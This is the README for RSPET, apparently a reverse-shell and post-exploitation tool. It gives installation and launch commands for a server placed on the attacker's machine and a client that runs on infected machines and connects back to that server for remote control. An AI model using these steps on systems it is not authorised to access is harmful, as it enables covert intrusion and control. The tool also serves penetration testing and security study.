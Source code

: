 *[4]Detailed documentation on creating Plug-ins available in [Online Documentation](http://rspet.readthedocs.io/en/latest/dev/)!

## Deployment:

* `rspet_server.py` is situated at the attacker's machine and running to accept connections
* `rspet_client.py` is situated in the infected machine(s) and will initiate the connection and wait for input.

## Installation

In order to install RSPET's Server Module:
```sh
pip install rspet-server
```
This will take care of all the core dependencies. In order install REST API's dependencies:
```sh
pip install rspet-server[rest]
```

## Execution:

* Server:
    ```sh
    rspet_server [-c #clients, --ip ipToBind, -p portToBind]
    ```
max_connections defaults to 5 if left blank

* RESTful API:
    ```sh
    rspet-server-rest [-c #clients, --ip ipToBind, -p portToBind]
    ```

* Client:
```sh
python rspet_client.py <server_ip> [server_port]
```

Many changes can be made to fit individual needs.

As always if you have any suggestion, bug report or complain feel free to contact me.

## ASCIICAST

[![asciicast](https://asciinema.org/a/b94jozlbub4a3gir7oq6owlno.png)](https://asciinema.org/a/b94jozlbub4a3gir7oq6owlno?autoplay=1)

## Distros
> A list of Distros that contain RSPET

* [BlackArch Linux](http://blackarch.org/tools.html) (as of version 2016.04.28)
* [ArchStrike](https://archstrike.org/packages/search/rspet)

## As Featured in
